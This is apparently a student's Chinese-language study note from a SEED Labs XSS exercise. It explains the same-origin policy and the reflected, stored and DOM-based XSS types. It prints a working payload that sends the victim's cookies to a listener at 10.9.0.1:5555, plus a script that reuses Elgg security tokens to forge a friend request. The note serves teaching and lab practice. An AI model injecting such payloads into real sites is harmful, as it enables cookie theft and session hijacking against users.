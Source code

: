 **同源策略**

**协议相同，域名相同，端口相同**

同源策略是一种重要的安全策略，用于限制一个源的文档或脚本如何与另一个源的资源进行交互

在同源策略中，“源”指的是**协议、域名和端口**三者的组合

同源策略阻止了来自不同源的脚本对当前源的文档或脚本进行读取或操作

虽然同源策略旨在防止跨源脚本执行，但XSS攻击本质上是在受害者的浏览器上执行恶意脚本，而这些脚本通常被视为是从受信任源（即受攻击的网站）加载的。因此，**XSS攻击实际上是一种绕过同源策略的手段**。XSS攻击利用了同源策略的漏洞，即允许来自同一源的所有脚本执行，而不考虑它们是否安全或受信任

**类型**

1.  **反射型**（非持久型XSS攻击）

    攻击者输入的脚本**直接返回被攻击者的浏览器**

    常见的方式就是在URL中附带恶意脚本

    `http://www.example.com/test.php?user=<script> alert('hahahah') </script>`
2.  **存储型**（持久型XSS攻击）

    攻击者输入的脚本**存储于Web服务器**

    一般出现在网站的留言、评论或日志等位置，受害者浏览这些信息时触发
3.  **DOM型**

    DOM是文档对象模型，浏览器对Web网页及内容的抽象标识模型

    攻击者利用Web网页中的JavaScript代码漏洞而执行攻击脚本的XSS攻击

    如JavaScript代码直接使用URL中参数，并且没有过滤或消毒时会遭到DOM型XSS攻击

**利用方式**

1.  Cookie窃取

    通过JS代码访问`document.cookie`即可获取当前服务器的Cookie信息

    **Lab7** 实验从受害者机器上窃取Cookie信息的XSS攻击代码，发送到攻击者处port 5555 ，IP10.9.0.1：

    ```html
    <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>
    <!--
    当JavaScript插入img标记时，浏览器会尝试从src字段中的URL加载图像，这将导致向攻击者的机器发送HTTP GET请求，请求时附带窃取到的cookie，攻击者监听报文即可窃取到cookie
    -->
    ```
2.  会话劫持

    攻击者利用XSS攻击，冒用合法者的会话ID进行网络访问的一种方式

    **LAB7** 实现添加好友功能的XSS攻击：

    利用`window.onload = function() { ... }`发起Ajax请求， `window.onload`指定当整个页面（包括所有依赖的资源，如图片、样式表等）完全加载完成后应该执行的函数。

    ```html
    <script type="text/javascript">
    window.onload = function () {
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
    var token="&__elgg_token="+elgg.security.token.__elgg_token; 
    var sendurl="http://www.seed-server.com/action/friends/add?friend=56"+ts+token;
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
    </script>
    ```
3. 网络钓鱼
4. 信息探测